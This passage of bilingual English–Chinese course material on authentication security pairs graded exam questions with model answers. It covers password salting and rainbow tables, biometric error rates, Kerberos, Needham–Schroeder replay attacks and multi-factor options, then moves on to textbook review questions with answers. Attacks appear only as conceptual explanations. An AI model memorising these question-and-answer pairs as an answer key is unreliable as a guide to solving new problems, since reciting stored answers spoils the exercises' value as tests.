(c) Each salt needs its own table: 4096 tables \(\approx15\) GB of chains (17.7 TB for full tables) and 4096 times the precomputation, and a table built for one salt is useless for another. The attacker must attack each account separately: up to \(N\) hashes per account. Because \(N\) is only \(3\times10^{8}\), that is still seconds on a GPU, so the real defects are the tiny password space and the fast hash; a longer password and a slow hash (iterations, Bcrypt cost) are needed as well.(c) 每个盐值都需要自己的表：4096 张表需要 \(\approx15\) GB 的链（完整表则为 17.7 TB），预计算也增加到 4096 倍，而且为一个盐值构造的表对另一个盐值毫无用处。攻击者必须逐个攻击每个账户：每个账户最多需要 \(N\) 次哈希。由于 \(N\) 只有 \(3\times10^{8}\)，在 GPU 上仍然只需几秒，因此真正的缺陷是口令空间过小以及哈希过快；同时还需要更长的口令和慢速哈希（迭代次数、Bcrypt 代价）。
(d) \(TM^2\approx N^2\) (rainbow: \(N^2/2\)). The chains give up online time: about \(t^2/2\) hash evaluations per lookup instead of one table lookup.(d) \(TM^2\approx N^2\)（彩虹表：\(N^2/2\)）。链放弃了在线时间：每次查找约需 \(t^2/2\) 次哈希计算，而不是一次查表。
(e) Each account sees only 3 failed attempts, below the lockout limit, so no account locks. \(0.01\times10^6=10{,}000\) accounts fall. Countermeasures: reject common passwords and watch for the same guess across many IDs from one source.(e) 每个账户只会看到 3 次失败尝试，低于锁定阈值，因此没有账户被锁定。\(0.01\times10^6=10{,}000\) 个账户会被攻破。对策：拒绝常见口令，并监测来自同一来源、针对大量 ID 的相同猜测。
思路：先算 \(N\)，再用 \(M=N/t\)、\(t(t-1)/2\)；加盐只是迫使逐账户攻击，口令空间太小仍然不安全。
Q2. (Biometrics, 12 marks) A fingerprint verifier gives scores \(N(70,10^2)\) for genuine users and \(N(40,10^2)\) for impostors; it accepts if \(s\ge t\). (a) Define FAR and FRR. (2) (b) For \(t=60\) compute both (\(\Phi(1)=0.8413\), \(\Phi(2)=0.9772\)) and interpret. (4) (c) Which way should \(t\) move for an airport security area, and at what cost? (2) (d) Describe one spoofing attack and two countermeasures. (2) (e) Why does the dynamic biometric protocol not need to authenticate the capture device? (2)Q2.（生物特征，12 分）某指纹验证器对真实用户给出分数 \(N(70,10^2)\)，对冒名者给出分数 \(N(40,10^2)\)；当 \(s\ge t\) 时接受。(a) 定义 FAR 和 FRR。（2 分）(b) 对 \(t=60\)，计算两者（\(\Phi(1)=0.8413\)，\(\Phi(2)=0.9772\)）并解释。（4 分）(c) 机场安检区应使 \(t\) 朝哪个方向移动？代价是什么？（2 分）(d) 描述一种欺骗攻击以及两种对策。（2 分）(e) 为什么动态生物特征协议不需要对采集设备进行认证？（2 分）
Answer
(a) FAR is the fraction of impostor attempts accepted (false match rate); FRR is the fraction of genuine attempts rejected (false nonmatch rate).(a) FAR 是被接受的冒名尝试所占的比例（误匹配率）；FRR 是被拒绝的真实尝试所占的比例（误不匹配率）。
(b) \(\text{FRR}=\Phi\bigl(\tfrac{60-70}{10}\bigr)=\Phi(-1)=1-0.8413=15.87\%\); \(\text{FAR}=1-\Phi\bigl(\tfrac{60-40}{10}\bigr)=1-0.9772=2.28\%\). About 16 in 100 genuine users are rejected and about 2 in 100 impostors accepted.(b) \(\text{FRR}=\Phi\bigl(\tfrac{60-70}{10}\bigr)=\Phi(-1)=1-0.8413=15.87\%\)；\(\text{FAR}=1-\Phi\bigl(\tfrac{60-40}{10}\bigr)=1-0.9772=2.28\%\)。每 100 名真实用户中约有 16 人被拒绝，每 100 名冒名者中约有 2 人被接受。
(c) Raise \(t\) to cut FAR; the cost is a higher FRR (more genuine users rejected, queues). Moving from 60 to 65 gives FAR 0.62% and FRR 30.85%.(c) 提高 \(t\) 可以降低 FAR；代价是 FRR 升高（更多真实用户被拒绝，并造成排队）。将阈值从 60 提高到 65，FAR 为 0.62%，FRR 为 30.85%。
(d) A replica finger or a lifted print is presented to the sensor. Countermeasures: copy (liveness) detection at the capture device, and authentication of the capture device so that a fake device cannot inject a stolen template; a second factor such as a PIN also helps.(d) 向传感器出示仿制手指或拓印的指纹。对策：在采集设备处进行复制（活体）检测，以及对采集设备进行认证，使伪造设备无法注入被盗的模板；此外，PIN 等第二因素也有帮助。
(e) The host sends a fresh random sequence that the user must speak, type or write, so a recording cannot match a new challenge; a static template has no such dependence and could be injected by a fake device.(e) 主机发送一个新鲜的随机序列，用户必须说出、打出或写出该序列，因此录音无法与新的挑战相匹配；静态模板则不依赖于此，可能被伪造设备注入。
Q3. (Kerberos, 15 marks) (a) State the problem Kerberos solves and the three threats. (3) (b) List the six messages of the version 4 protocol with their main contents. (6) (c) Explain why both a ticket and an authenticator are needed. (3) (d) Give three differences between version 5 and version 4. (3)Q3.（Kerberos，15 分）(a) 说明 Kerberos 解决的问题以及三种威胁。（3 分）(b) 列出第 4 版协议的六条消息及其主要内容。（6 分）(c) 解释为什么既需要票据又需要认证符。（3 分）(d) 给出第 5 版与第 4 版的三点区别。（3 分）
Answer
(a) In an open distributed environment a workstation cannot be trusted to identify its user to services. Threats: a user poses as another on a workstation; a user alters a workstation's network address; a user eavesdrops and replays messages. Kerberos provides central authentication of users to servers and servers to users with symmetric encryption only.(a) 在开放的分布式环境中，工作站不能被信任来向服务识别其用户。威胁包括：用户在某工作站上冒充他人；用户更改工作站的网络地址；用户窃听并重放消息。Kerberos 仅使用对称加密，为用户与服务器之间提供集中式认证。
(b) (1) C to AS: \(ID_C\Vert ID_{tgs}\Vert TS_1\). (2) AS to C: \(E(K_c,[K_{c,tgs}\Vert ID_{tgs}\Vert TS_2\Vert\text{Lifetime}_2\Vert\text{Ticket}_{tgs}])\), with \(\text{Ticket}_{tgs}\) encrypted under \(K_{tgs}\). (3) C to TGS: \(ID_v\Vert\text{Ticket}_{tgs}\Vert\text{Authenticator}_c\). (4) TGS to C: \(E(K_{c,tgs},[K_{c,v}\Vert ID_v\Vert TS_4\Vert\text{Ticket}_v])\), with \(\text{Ticket}_v\) under \(K_v\). (5) C to V: \(\text{Ticket}_v\Vert\text{Authenticator}_c\). (6) V to C: \(E(K_{c,v},[TS_5+1])\) for mutual authentication.(b) (1) C 发送给 AS：\(ID_C\Vert ID_{tgs}\Vert TS_1\)。(2) AS 发送给 C：\(E(K_c,[K_{c,tgs}\Vert ID_{tgs}\Vert TS_2\Vert\text{Lifetime}_2\Vert\text{Ticket}_{tgs}])\)，其中 \(\text{Ticket}_{tgs}\) 由 \(K_{tgs}\) 加密。(3) C 发送给 TGS：\(ID_v\Vert\text{Ticket}_{tgs}\Vert\text{Authenticator}_c\)。(4) TGS 发送给 C：\(E(K_{c,tgs},[K_{c,v}\Vert ID_v\Vert TS_4\Vert\text{Ticket}_v])\)，其中 \(\text{Ticket}_v\) 由 \(K_v\) 加密。(5) C 发送给 V：\(\text{Ticket}_v\Vert\text{Authenticator}_c\)。(6) V 发送给 C：\(E(K_{c,v},[TS_5+1])\)，用于双向认证。
(c) The ticket is reusable, readable only by the server, and carries the session key; it proves nothing about the presenter. The authenticator is encrypted under the session key with a fresh timestamp and used once, so it proves that the presenter holds the key now. A stolen ticket lacks the key and a stolen authenticator expires within seconds.(c) 票据可以重复使用，只有服务器能够读取，并携带会话密钥；它本身不能证明出示者的身份。认证符以会话密钥加密，并包含新鲜的时间戳，且只使用一次，因此它证明出示者此刻持有该密钥。被盗的票据缺少密钥，而被盗的认证符会在几秒内过期。
(d) Any three: ciphers other than DES; explicit start and end times instead of at most 21.3 h; authentication forwarding; fewer interrealm relationships; no double encryption of tickets; CBC with a checksum instead of PCBC; subsession keys; preauthentication against password guessing.(d) 任选三点：使用 DES 以外的密码；明确的起止时间，而不是最长 21.3 h；认证转发；更少的跨域关系；票据不进行两次加密；使用带校验和的 CBC 而非 PCBC；子会话密钥；通过预认证防御口令猜测。
Q4. (Protocol analysis, 12 marks) (a) Write the five messages of the Needham–Schroeder protocol. (3) (b) Explain how an opponent who knows an old session key defeats it. (3) (c) Show Denning's fix and decide whether a message whose timestamp differs from the clock by 4 s and by 6 s is accepted when \(\Delta t_1=2\) s and \(\Delta t_2=3\) s. (3) (d) Explain suppress-replay and give two remedies. (3)Q4.（协议分析，12 分）(a) 写出 Needham–Schroeder 协议的五条消息。（3 分）(b) 说明一个知道旧会话密钥的对手如何攻破该协议。（3 分）(c) 给出 Denning 的修正，并判定当 \(\Delta t_1=2\) s 且 \(\Delta t_2=3\) s 时，时间戳与时钟相差 4 s 和 6 s 的消息是否被接受。（3 分）(d) 解释抑制重放，并给出两种补救办法。（3 分）
Answer
(a) 1. A to KDC: \(ID_A\Vert ID_B\Vert N_1\). 2. KDC to A: \(E(K_a,[K_s\Vert ID_B\Vert N_1\Vert E(K_b,[K_s\Vert ID_A])])\). 3. A to B: \(E(K_b,[K_s\Vert ID_A])\). 4. B to A: \(E(K_s,N_2)\). 5. A to B: \(E(K_s,f(N_2))\).(a) 1. A 发送给 KDC：\(ID_A\Vert ID_B\Vert N_1\)。2. KDC 发送给 A：\(E(K_a,[K_s\Vert ID_B\Vert N_1\Vert E(K_b,[K_s\Vert ID_A])])\)。3. A 发送给 B：\(E(K_b,[K_s\Vert ID_A])\)。4. B 发送给 A：\(E(K_s,N_2)\)。5. A 发送给 B：\(E(K_s,f(N_2))\)。
(b) X replays an old recorded step 3. B cannot tell it from a fresh one unless it remembers all old session keys with A. X knows the old \(K_s\), so it answers step 4 with \(E(K_s,f(N_2))\) and then impersonates A.(b) X 重放一条旧的已录制第 3 步消息。除非 B 记住与 A 之间所有旧的会话密钥，否则它无法将其与新鲜消息区分。X 知道旧的 \(K_s\)，因此它用 \(E(K_s,f(N_2))\) 应答第 4 步，然后冒充 A。
(c) Denning adds a timestamp \(T\) inside the KDC's reply and inside the part encrypted under \(K_b\): \(E(K_b,[K_s\Vert ID_A\Vert T])\). B accepts iff \(\lvert\text{Clock}-T\rvert<\Delta t_1+\Delta t_2=5\) s: the 4 s message is accepted, the 6 s message rejected. An old step 3 fails the test and \(T\) cannot be altered because it is encrypted.(c) Denning 在 KDC 的应答中以及由 \(K_b\) 加密的部分中加入时间戳 \(T\)：\(E(K_b,[K_s\Vert ID_A\Vert T])\)。当且仅当 \(\lvert\text{Clock}-T\rvert<\Delta t_1+\Delta t_2=5\) s 时 B 才接受：4 s 的消息被接受，6 s 的消息被拒绝。旧的第 3 步消息无法通过检验，而 \(T\) 因为已被加密，无法被篡改。
(d) If the sender's clock is ahead of the recipient's, an opponent intercepts a message and delays it until its timestamp is current at the recipient, then replays it; the original was suppressed, so the repetition goes unnoticed. Remedies: check clocks regularly against the KDC; use nonce handshakes, whose future values the sender cannot predict.(d) 若发送方的时钟快于接收方，对手截获一条消息并将其延迟，直到其时间戳在接收方处成为当前时刻，然后再重放；原始消息已被抑制，因此这次重复不会被察觉。补救办法：定期与 KDC 核对时钟；或使用 nonce 握手，因为发送方无法预测未来的 nonce 值。
Q5. (Scenario, 12 marks) A company must add a second factor to staff VPN logins and considers (i) SMS codes, (ii) a TOTP app and (iii) a FIDO2 hardware key. (a) Give the factor class each adds. (3) (b) Name one attack on each and a countermeasure. (6) (c) A TOTP app uses Step = 30 s and \(T_0=0\). Compute \(T\) at Unix time 1,700,000,029 and say when the code changes. (3)Q5.（情景分析，12 分）某公司需要为员工的 VPN 登录增加第二因素，并考虑 (i) 短信验证码，(ii) TOTP 应用，以及 (iii) FIDO2 硬件密钥。(a) 说明每种方式增加的因素类别。（3 分）(b) 对每种方式各举出一种攻击及对策。（6 分）(c) TOTP 应用使用步长 Step = 30 s 和 \(T_0=0\)。计算在 Unix 时间 1,700,000,029 时的 \(T\)，并说明验证码何时更换。（3 分）
Answer
(a) All three are possession factors (something the user has), combined with the password (knowledge), so the login is two-factor. A hardware FIDO2 key can also meet the highest assurance level (hardware key, resistant to verifier impersonation).(a) 三者都是持有因素（用户所拥有的东西），并与口令（知识因素）结合，因此登录为双因素。硬件 FIDO2 密钥还可以达到最高的保证级别（硬件密钥，能够抵御验证方冒充）。
(b) SMS: SIM swap moves the number to the attacker; countermeasure: carrier port-out protection, or prefer another method (NIST restricts SMS). TOTP app: prompt bombing or phishing that makes the user reveal the code, malware or key extraction on the phone; countermeasure: user training to approve only own requests, phone unlock before the code is shown, backup codes. FIDO2 key: loss or theft, or malware on the PC; countermeasure: PIN or biometric on the key (multifactor device) and a registered spare key; its challenge–response with the origin resists phishing.(b) 短信：SIM 卡交换将号码转移给攻击者；对策：运营商的携号转网保护，或改用其他方式（NIST 对短信有所限制）。TOTP 应用：提示轰炸，或使用户泄露验证码的钓鱼攻击，手机上的恶意软件或密钥提取；对策：培训用户只批准自己发起的请求，在显示验证码之前先解锁手机，并保留备用码。FIDO2 密钥：丢失或被盗，或电脑上的恶意软件；对策：在密钥上设置 PIN 或生物特征（多因素设备），并登记一把备用密钥；其与来源的挑战–应答机制可以抵御钓鱼。
(c) \(T=\lfloor1{,}700{,}000{,}029/30\rfloor=56{,}666{,}667\); the code changes at 1,700,000,040, after 11 s.(c) \(T=\lfloor1{,}700{,}000{,}029/30\rfloor=56{,}666{,}667\)；验证码在 1,700,000,040 更换，即 11 s 之后。
Textbook exercises课后习题
Textbook exercises with answers: 22 questions教材习题及答案，共 22 题，点击展开
E1. (Review Question 16.1, Stallings) Give examples of replay attacks.E1.（复习题 16.1，Stallings）举例说明重放攻击。
Answer
A replay attack is one in which an opponent captures a valid message (or part of it) and sends it again later to gain an unauthorized effect. Four examples:重放攻击是指对手截获一条有效消息（或其中的一部分），并在之后再次发送，以获得未经授权的效果。以下是四个例子：
- Simple replay: the opponent copies a message and replays it later, for example a copied "transfer funds" message.简单重放：对手复制一条消息，之后再重放，例如复制一条“转账”消息。
- Repetition that can be logged: the opponent replays a timestamped message within the validity window of the timestamp.可以被记录的重复：对手在时间戳的有效期内重放一条带时间戳的消息。
- Repetition that cannot be detected: the original message was suppressed (intercepted, never delivered) and only the replay arrives, so the receiver sees a single, apparently valid message.无法被发现的重复：原始消息被压制（被截获，从未送达），只有重放的消息到达，因此接收方看到的只是一条看似有效的消息。
- Backward replay without modification: a message is sent back to the sender. This works when symmetric encryption is used and the sender cannot easily tell a message it sent from one it received.不加修改的反向重放：把一条消息原样发回给发送方。这在使用对称加密、且发送方难以分辨自己发出的消息与收到的消息时可以奏效。
思路：重放就是截获合法消息后在别处或以后重新发送。
E2. (Review Question 16.2, Stallings) List three general approaches to dealing with replay attacks.E2.（复习题 16.2，Stallings）列出应对重放攻击的三种通用方法。
Answer
- Sequence numbers: each message carries a number, and a message is accepted only if its number is new. This needs each party to remember the last number of every partner, so it is rarely used for authentication.序列号：每条消息携带一个编号，只有编号是新的消息才会被接受。这要求每一方记住每个通信对象的最后一个编号，因此很少用于认证。
- Timestamps: a message is accepted only if its timestamp is close enough to the receiver's clock. This needs synchronized clocks.时间戳：只有当消息的时间戳与接收方的时钟足够接近时，消息才会被接受。这需要时钟同步。
- Challenge/response (nonce): before the exchange, the receiver sends a fresh random number (nonce) which the sender must include in its reply. A replayed old message contains an old nonce and is rejected.挑战/应答（一次性随机数）：在通信之前，接收方发送一个新鲜的随机数（nonce），发送方必须在其应答中包含它。被重放的旧消息包含的是旧的一次性随机数，因此会被拒绝。
思路：序号、时间戳、随机数质询三种防重放手段。
E3. (Review Question 16.3, Stallings) What is a suppress-replay attack?E3.（复习题 16.3，Stallings）什么是抑制重放攻击？
Answer
It is an attack on timestamp-based protocols. If the sender's clock is ahead of the receiver's clock, a message the sender produces carries a timestamp that lies in the receiver's future. An opponent intercepts such a message and does not deliver it (it is suppressed). The opponent waits until the timestamp becomes current at the receiver and replays it; the receiver accepts it as fresh, although the sender may no longer intend it. It is countered by keeping clocks synchronized within a small tolerance, checking timestamps against the receiver's clock only, or using a nonce handshake.这是针对基于时间戳协议的一种攻击。若发送方的时钟快于接收方，发送方产生的消息所带的时间戳就位于接收方的“未来”。对手截获这样的消息，并且不将其送达（即压制它）。对手等到该时间戳在接收方看来变为当前时间，再将其重放；接收方便会把它当作新鲜消息接受，而发送方可能已经不再希望它生效。应对办法包括：把时钟同步控制在很小的误差范围内，只依据接收方自己的时钟检查时间戳，或使用一次性随机数握手。
思路：发送方时钟偏快，对手扣住消息，等到接收方时钟追上再重放。
E4. (Review Question 16.4, Stallings) What problem was Kerberos designed to address?E4.（复习题 16.4，Stallings）Kerberos 是为了解决什么问题而设计的？
Answer
Kerberos addresses authentication in an open distributed environment where users at workstations want to use services on servers across a network. Here a workstation cannot be trusted to identify its user correctly: an opponent could impersonate another user, change a workstation's network address, or eavesdrop and replay messages. Kerberos lets servers decide whether a request really comes from the claimed user without sending passwords over the network and without every server keeping its own password database.Kerberos 解决的是开放分布式环境中的认证问题：在这种环境中，工作站上的用户希望使用网络另一端服务器上的服务。在这里，不能相信工作站能正确识别其用户：对手可能冒充其他用户、更改工作站的网络地址，或者窃听并重放消息。Kerberos 让服务器能够判断一个请求是否真的来自其声称的用户，既不需要在网络上传输口令，也不需要每台服务器各自维护一套口令数据库。
思路：开放网络里用户在不可信工作站上访问服务器时如何可信地认证。
E5. (Review Question 16.5, Stallings) In Kerberos, what is the purpose of the centralized authentication server?E5.（复习题 16.5，Stallings）在 Kerberos 中，集中式认证服务器的作用是什么？
Answer
The authentication server (AS) holds the passwords (as keys) of all users in one database and shares a secret key with each application server. The user authenticates once to the AS, which returns a ticket-granting ticket. A server then needs no user password database of its own: it trusts the AS, which vouches for the user through tickets encrypted with the server's key. Hence passwords are stored in one protected place and never travel in clear over the network.认证服务器（AS）把所有用户的口令（作为密钥）集中保存在一个数据库中，并与每个应用服务器共享一个密钥。用户只需向 AS 认证一次，AS 随即返回一张票据授予票据。服务器本身因此不需要自己的用户口令数据库：它信任 AS，而 AS 通过用服务器密钥加密的票据为用户作担保。因此，口令只保存在一个受保护的地方，从不以明文形式在网络上传输。
思路：集中保存口令并发放票据，让每台服务器无需自己的口令库。
E6. (Review Question 16.6, Stallings) Which approach to secure user authentication in a distributed environment does Kerberos support?E6.（复习题 16.6，Stallings）Kerberos 支持分布式环境中保障用户认证安全的哪一种方法？
Answer
There are three approaches: (1) rely on each client workstation to identify its user correctly to the servers; (2) require each server to authenticate the client workstation, but trust the workstation about its user; (3) require the user to prove identity for each service and the servers to prove identity to clients. Kerberos supports the third approach. It uses a trusted third-party authentication service, the Kerberos server, based on shared secret keys, so that user and server can each be sure of the other's identity.共有三种方法：(1) 依赖每台客户端工作站向服务器正确识别其用户；(2) 要求每台服务器认证客户端工作站，但对工作站所报告的用户身份予以信任；(3) 要求用户为每项服务证明身份，并要求服务器向客户端证明身份。Kerberos 支持第三种方法。它采用一个基于共享秘密密钥的可信第三方认证服务，即 Kerberos 服务器，使用户和服务器都能确信对方的身份。
思路：Kerberos 采用第三种：用户对每个服务证明身份，借助可信第三方。
E7. (Review Question 16.7, Stallings) What four requirements were defined for Kerberos?E7.（复习题 16.7，Stallings）Kerberos 定义了哪四项需求？
Answer
- Secure: an eavesdropper must not be able to obtain the information needed to impersonate a user.安全：窃听者不能获得冒充用户所需的信息。
- Reliable: the service must be highly available, so it uses a distributed server architecture with backup servers.可靠：服务必须具有高可用性，因此采用带备份服务器的分布式服务器架构。
- Transparent: the user should notice nothing beyond typing a password once.透明：除了输入一次口令之外，用户不应察觉到任何其他操作。
- Scalable: the system must support a large number of clients and servers, hence a modular, distributed design.可扩展：系统必须支持大量客户端和服务器，因此采用模块化的分布式设计。
思路：安全、可靠、透明、可扩展。
E8. (Review Question 16.8, Stallings) What entities constitute a full-service Kerberos environment?E8.（复习题 16.8，Stallings）一个完整服务的 Kerberos 环境由哪些实体组成？
Answer
A full-service environment consists of a Kerberos server, a number of clients, and a number of application servers. The Kerberos server (AS plus ticket-granting server) holds the user IDs and hashed passwords of all users in its database, and shares a secret key with each application server. All users are registered with it and all application servers are registered with it. The clients are the workstations through which the users obtain tickets, and the application servers provide the actual services.完整服务的 Kerberos 环境由一台 Kerberos 服务器、若干客户端和若干应用服务器组成。Kerberos 服务器（即 AS 加上票据授予服务器）在其数据库中保存所有用户的 ID 和散列口令，并与每台应用服务器共享一个密钥。所有用户和所有应用服务器都在它那里注册。客户端是用户用来获取票据的工作站；应用服务器则提供实际的服务。
思路：Kerberos 服务器、客户端、应用服务器三类实体。
E9. (Review Question 16.9, Stallings) In the context of Kerberos, explain the concept of realm.E9.（复习题 16.9，Stallings）在 Kerberos 的语境下，解释管辖域（realm）的概念。
Answer
A realm is a Kerberos environment under one administrative control: one Kerberos server whose database contains the user IDs and hashed passwords of all participating users, with all application servers registered with it. To let a user of one realm use a server in another, the two Kerberos servers share a secret key and each is registered with the other. The user then gets a ticket-granting ticket for the remote realm from the home realm, and a service ticket from the remote realm's TGS. The remote realm must trust the home realm's authentication of its users.管辖域是由同一管理机构控制的 Kerberos 环境：一台 Kerberos 服务器，其数据库包含所有参与用户的 ID 和散列口令，所有应用服务器都在其上注册。若要让一个域的用户使用另一个域的服务器，两台 Kerberos 服务器共享一个密钥，并相互注册。随后，用户从本域获得远程域的票据授予票据，再从远程域的 TGS 获得服务票据。远程域必须信任本域对其用户的认证。
思路：一个 Kerberos 服务器管辖的范围；跨域靠两服务器共享密钥。
E10. (Review Question 16.10, Stallings) What are the principal differences between version 4 and version 5 of Kerberos?E10.（复习题 16.10，Stallings）Kerberos 第 4 版和第 5 版的主要区别是什么？
Answer
Version 5 removes the environmental shortcomings and technical deficiencies of version 4.第 5 版消除了第 4 版在环境适应性和技术上的不足。
| Point比较点 | Version 4第 4 版 | Version 5第 5 版 |
|---|---|---|
| Encryption加密 | DES only仅 DES | any algorithm, tagged by an encryption-type identifier任意算法，并附带加密类型标识符 |
| Network addresses网络地址 | IP addresses only仅支持 IP 地址 | any address type, with a type and length任意地址类型，并附带类型和长度 |
| Message encoding消息编码 | ad hoc byte order flagged in the message临时约定的字节序，并在消息中加以标注 | standard ASN.1 / BER标准的 ASN.1 / BER |
| Ticket lifetime票据有效期 | 8-bit field in 5-minute units, at most about 21 hours8 位字段，以 5 分钟为单位，最长约 21 小时 | explicit start and end times, so any lifetime明确的起止时间，因此可以任意设定有效期 |
| Authentication forwarding认证转发 | not supported不支持 | supported支持 |
| Interrealm authentication跨域认证 | needs a trust link between every pair of realms (about \(N^2\))需要每两个域之间都建立信任关系（约 \(N^2\) 条） | fewer links through realm hierarchies通过域的层级结构，所需的链接更少 |
Version 5 also drops the double encryption of tickets, replaces the non-standard PCBC mode by CBC with a checksum, allows a subsession key, and adds pre-authentication against password guessing.第 5 版还取消了票据的双重加密，用带校验和的 CBC 模式取代了非标准的 PCBC 模式，允许使用子会话密钥，并增加了防止口令猜测的预认证。
思路：v5 在加密算法、地址类型、编码、有效期、转发、跨域上更通用。
E11. (Review Question 3.1, Stallings & Brown) In general terms, what are four means of authenticating a user's identity?E11.（复习题 3.1，Stallings & Brown）概括地说，认证用户身份的四种手段是什么？
Answer
- Something the individual knows: a password, PIN or answers to prearranged questions.用户所知道的东西：口令、PIN 或预先设定问题的答案。
- Something the individual possesses (a token): a smart card, electronic keycard or physical key.用户所持有的东西（令牌）：智能卡、电子门卡或实体钥匙。
- Something the individual is (static biometrics): fingerprint, retina or face.用户本身的特征（静态生物特征）：指纹、视网膜或人脸。
- Something the individual does (dynamic biometrics): voice pattern, handwriting or typing rhythm.用户的行为（动态生物特征）：声纹、笔迹或打字节奏。
Each means has weaknesses (guessing, theft, spoofing), so combining two or more factors (multifactor authentication) is stronger.每种手段都有弱点（会被猜测、被盗、被欺骗），因此把两种或更多因素结合起来（多因素认证）更为可靠。
思路：知道的、持有的、本身的、行为的四类因素。
E12. (Review Question 3.2, Stallings & Brown) List and briefly describe the principal threats to the secrecy of passwords.E12.（复习题 3.2，Stallings & Brown）列出并简要说明对口令保密性的主要威胁。
Answer
- Offline dictionary attack: the attacker steals the password file and tries guesses against the hashes offline.离线字典攻击：攻击者窃取口令文件，并在离线状态下用猜测值与散列值进行比对。
- Specific account attack: the attacker guesses many passwords for one chosen account until it is locked out.针对特定账户的攻击：攻击者对某一指定账户反复猜测大量口令，直到账户被锁定。
- Popular password attack: the attacker tries a few very common passwords against many accounts.常用口令攻击：攻击者对大量账户尝试少数极常见的口令。
- Password guessing against a single user: the attacker uses knowledge of the user (name, birthday, hobbies).针对单个用户的口令猜测：攻击者利用对用户的了解（姓名、生日、爱好）进行猜测。
- Workstation hijacking: the attacker uses a logged-in, unattended workstation.劫持工作站：攻击者使用已登录且无人看管的工作站。
- Exploiting user mistakes: written-down or shared passwords, or passwords revealed to social engineering.利用用户失误：口令被写下来或被共享，或口令被社会工程攻击套取。
- Exploiting multiple password use: one cracked password opens other systems where it is reused.利用口令重复使用：一个被破解的口令可以打开其他重复使用该口令的系统。
- Electronic monitoring: sniffing or keylogging passwords sent in clear.电子监听：嗅探或键盘记录以明文形式发送的口令。
思路：离线字典、针对账户、热门口令、猜测、劫持、用户失误、重复使用、监听。
E13. (Review Question 3.3, Stallings & Brown) What are two common techniques used to protect a password file?E13.（复习题 3.3，Stallings & Brown）保护口令文件的两种常用技术是什么？
Answer
- One-way hashing with a salt: the file stores only the salt and the hash of the password combined with the salt (slow hash, such as many iterations), so the plaintext cannot be read from the file and each guess costs the attacker a hash per salt.加盐单向散列：文件中只存储盐值，以及口令与盐值组合后的散列值（采用慢速散列，例如大量迭代）。因此无法从文件中读出明文，而且攻击者的每个猜测都要为每个盐值各算一次散列。
- Access control: access to the file is limited to one or a few privileged accounts (for example a shadow password file readable only by root), so that the hashes cannot be copied for offline attack.访问控制：只允许一个或少数特权账户访问该文件（例如只有 root 才能读取的影子口令文件），从而使散列值无法被复制用于离线攻击。
思路：加盐单向散列，加访问控制。
E14. (Review Question 3.4, Stallings & Brown) List and briefly describe four common techniques for selecting or assigning passwords.E14.（复习题 3.4，Stallings & Brown）列出并简要说明四种常用的口令选择或分配技术。
Answer
- User education: users are told the importance of hard-to-guess passwords and given rules for choosing them; it relies on users' cooperation, which is often poor.用户教育：告诉用户口令难以猜测的重要性，并给出选择口令的规则；但这依赖用户的配合，而配合往往很差。
- Computer-generated passwords: the system assigns random passwords; they are strong but hard to remember, so users write them down.系统生成口令：系统分配随机口令；这些口令很强，但难以记忆，因此用户会把它们写下来。
- Reactive password checking: the system runs a cracker against its own passwords periodically and forces weak ones to be changed; it uses a lot of resources, and weak passwords stay valid until found.事后口令检查：系统定期用破解程序检测自己的口令，并强制更换弱口令；这种方法耗费大量资源，而且在被发现之前，弱口令一直有效。
- Proactive password checking: at selection time the system tests the proposed password against rules and a dictionary, and rejects weak ones; this is the most effective, but too strict rules annoy users.主动口令检查：在选定口令时，系统用规则和字典检验拟用的口令，并拒绝弱口令；这是最有效的方法，但规则过于严格会让用户反感。
思路：教育、机器生成、事后检查、事前检查。
E15. (Review Question 3.5, Stallings & Brown) Explain the different ways a simple memory card, a smart card, a hardware token, and a mobile device can be used for authentication.E15.（复习题 3.5，Stallings & Brown）解释简单存储卡、智能卡、硬件令牌和移动设备各自可以如何用于认证。
Answer
- Memory card: stores data (for example a magnetic stripe) but has no processor; it is read by a reader and normally used with a PIN. It can be cloned.存储卡：只存储数据（例如磁条），没有处理器；由读卡器读取，通常与 PIN 配合使用。它可以被复制。
- Smart card: contains a processor, memory and I/O; it can hold a protected static password or certificate, generate a dynamic password, or run a challenge-response protocol so that the secret never leaves the card.智能卡：带有处理器、存储器和输入输出接口；它可以保存受保护的静态口令或证书，可以生成动态口令，也可以运行挑战-应答协议，使秘密始终不离开卡片。
- Hardware token: a small device (often with a display) that generates a one-time password from a secret key and a counter or the time; the user types it in.硬件令牌：一种小型设备（通常带有显示屏），根据秘密密钥以及计数器或时间生成一次性口令；用户将其手动输入。
- Mobile device: it acts as a token, receiving a one-time code by SMS or generating one in an app, and as a secure store for keys or biometrics.移动设备：它既可以充当令牌，通过短信接收一次性验证码或在应用中生成验证码，也可以作为密钥或生物特征的安全存储。
思路：从仅存储到可计算：记忆卡、智能卡、令牌、手机。
E16. (Review Question 3.6, Stallings & Brown) List and briefly describe the principal physical characteristics used for biometric identification.E16.（复习题 3.6，Stallings & Brown）列出并简要说明用于生物特征标识的主要身体特征。
Answer
- Facial characteristics: relative positions and shapes of eyes, nose, mouth and jaw.面部特征：眼睛、鼻子、嘴和下颌的相对位置与形状。
- Fingerprints: pattern of ridges and furrows (minutiae) on the finger.指纹：手指上脊线和谷线的纹路（细节特征点）。
- Hand geometry: shape and dimensions of the hand and fingers.手形：手和手指的形状与尺寸。
- Retinal pattern: the pattern of blood vessels at the back of the eye.视网膜纹路：眼底的血管纹路。
- Iris: the detailed texture of the iris.虹膜：虹膜的精细纹理。
- Signature: the shape and the pen movement of the handwritten signature.签名：手写签名的形状以及笔的运动轨迹。
- Voice: characteristics of the voice, determined by physiology and behaviour.声音：由生理和行为决定的嗓音特征。
The first five are static physical traits; signature and voice have a behavioural component.前五项是静态的身体特征；签名和声音则带有行为成分。
思路：脸、指纹、手形、视网膜、虹膜、签名、声音。
E17. (Review Question 3.7, Stallings & Brown) In the context of biometric user authentication, explain the terms enrollment, verification, and identification.E17.（复习题 3.7，Stallings & Brown）在生物特征用户认证的语境下，解释注册、验证和标识这些术语。
Answer
- Enrollment: the user presents the biometric trait to a sensor; features are extracted and stored as a template together with the user's ID (and possibly a PIN).注册：用户将生物特征呈现给传感器；系统提取特征，并与用户的 ID（可能还有 PIN）一起，作为模板存储。
- Verification: a one-to-one comparison. The user claims an identity (ID, PIN); the system compares the freshly captured sample with that user's stored template and accepts or rejects.验证：一对一的比对。用户声称自己的身份（ID、PIN）；系统把刚采集的样本与该用户存储的模板进行比对，然后接受或拒绝。
